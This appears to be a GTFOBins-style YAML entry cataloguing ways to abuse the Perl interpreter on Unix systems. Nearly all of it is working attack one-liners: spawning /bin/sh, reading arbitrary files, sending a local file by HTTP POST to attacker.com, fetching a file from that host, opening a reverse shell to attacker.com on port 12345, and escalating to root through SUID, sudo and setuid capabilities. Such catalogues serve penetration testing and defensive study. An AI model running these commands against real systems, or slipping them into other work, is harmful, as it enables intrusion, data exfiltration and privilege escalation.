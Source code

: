 ```yaml
---
functions:
  shell:
    - code: perl -e 'exec "/bin/sh";'
  file-read:
    - code: |
        LFILE=file_to_read
        perl -ne print $LFILE
  file-upload:
    - description: Send local file via "d" parameter of a HTTP POST request.
      code: |
        export RHOST=attacker.com
        export RPORT=8080
        export URL=/exploit.sh
        export LFILE=output.txt
        perl -MIO::Socket::INET -e '$s = new IO::Socket::INET(PeerAddr=>$ENV{"RHOST"}, PeerPort=>$ENV{"RPORT"}, Proto=>"tcp") or die;open(my $file, "<", $ENV{"LFILE"}) or die;$content = join("", <$file>);close($file);$post_data = "d=" . $content;$headers = "POST " . $ENV{"URL"} . " HTTP/1.1\r\nHost: " . $ENV{"RHOST"} . "\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: " . length($post_data) . "\r\nConnection: close\r\n\r\n";print $s $headers . $post_data;while (<$s>) { }close($s);'
  file-download:
    - description: Download a file via HTTP. For example, run `python3 -m http.server 8080` on the serving side.
      code: |
        export RHOST=attacker.com
        export RPORT=8080
        export URL=/exploit.sh
        export LFILE=output.txt
        perl -MIO::Socket::INET -e '$s=new IO::Socket::INET(PeerAddr=>$ENV{"RHOST"},PeerPort=>$ENV{"RPORT"},Proto=>"tcp") or die; print $s "GET " . $ENV{"URL"} . " HTTP/1.1\r\nHost: " . $ENV{"RHOST"} . "\r\nMetadata: true\r\nConnection: close\r\n\r\n"; open(my $fh, ">", $ENV{"LFILE"}) or die; $in_content = 0; while (<$s>) { if ($in_content) { print $fh $_; } elsif ($_ eq "\r\n") { $in_content = 1; } } close($s); close($fh);'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        perl -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  suid:
    - code: ./perl -e 'exec "/bin/sh";'
  sudo:
    - code: sudo perl -e 'exec "/bin/sh";'
  capabilities:
    - code: ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
---
```

